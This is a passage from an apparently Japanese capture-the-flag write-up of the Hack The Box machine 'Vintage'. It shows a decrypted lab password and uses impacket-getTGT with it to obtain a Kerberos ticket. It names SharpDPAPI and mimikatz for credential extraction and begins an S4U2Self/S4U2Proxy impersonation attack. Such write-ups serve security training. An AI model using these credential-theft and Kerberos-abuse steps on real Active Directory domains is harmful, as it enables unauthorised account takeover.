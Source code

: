 C.Neri_admのパスワード `Uncr4ck4bl3P4ssW0rd0312` の復号に成功しました。

今回はこのマシンがアンチウィルスソフトのせいでツールをアップロードできないので使えないのですが、[SharpDPAPI](https://github.com/GhostPack/SharpDPAPI), mimikazを使うことで同じことができます。

パスワードを取得することができたのでこれで `C.Neri_adm` TGTを取得します。これで `C.Neri_adm` を制御できます。

```bash
┌──(kali㉿kali)-[~/HTB/machine/Windows/Vintage]
└─$ impacket-getTGT -dc-ip dc01.vintage.htb vintage.htb/C.Neri_adm:Uncr4ck4bl3P4ssW0rd0312
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Saving ticket in C.Neri_adm.ccache
```

```bash
┌──(kali㉿kali)-[~/HTB/machine/Windows/Vintage]
└─$ export KRB5CCNAME=C.Neri_adm.ccache
                                                 
┌──(kali㉿kali)-[~/HTB/machine/Windows/Vintage]
└─$ klist
Ticket cache: FILE:C.Neri_adm.ccache
Default principal: C.Neri_adm@VINTAGE.HTB

Valid starting       Expires              Service principal
2025-01-13T11:05:46  2025-01-13T21:05:46  krbtgt/VINTAGE.HTB@VINTAGE.HTB
	renew until 2025-01-14T11:05:46
```

## S4U2SelfとS4U2Proxyを利用した成りすまし攻撃

BloodHoundで `C.Neri_adm` の権限を見てみると、 `DelegatedAdmins` に対して `GenericWrite` の権限をもっていることが分かりました。

![image-20241227161730895](screenshot/image-20241227161730895.png)
